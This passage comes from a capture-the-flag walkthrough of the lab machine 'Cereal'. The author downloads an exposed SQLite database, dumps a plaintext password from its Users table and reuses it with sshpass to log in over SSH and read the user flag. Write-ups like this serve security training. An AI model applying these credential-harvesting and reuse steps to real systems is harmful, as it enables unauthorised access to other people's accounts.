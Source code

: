 ![](/img/image-20210428070756319.png)

I'll right-click on `cereal.db` and Save Link As... the file so I have
it locally to investigate:



    oxdf@parrot$ file cereal.db 
    cereal.db: SQLite 3.x database, last written using SQLite version 3028000



Opening it, I can dump the `Users` table and get the password:



    oxdf@parrot$ sqlite3 cereal.db
    SQLite version 3.34.1 2021-01-20 14:10:07
    Enter ".help" for usage hints.
    sqlite> .tables
    Requests               Users                  __EFMigrationsHistory
    sqlite> select * from Users;
    1|sonny|mutual.madden.manner38974|



### SSH

Those creds work to auth as sonny over SSH:



    oxdf@parrot$ sshpass -p 'mutual.madden.manner38974' ssh sonny@10.10.10.217
    Microsoft Windows [Version 10.0.17763.1817]                                                              
    (c) 2018 Microsoft Corporation. All rights reserved. 
                                                        
    sonny@CEREAL C:\Users\sonny>



And collect `user.txt`:



    sonny@CEREAL C:\Users\sonny\Desktop>type user.txt
    cbc1c58b************************
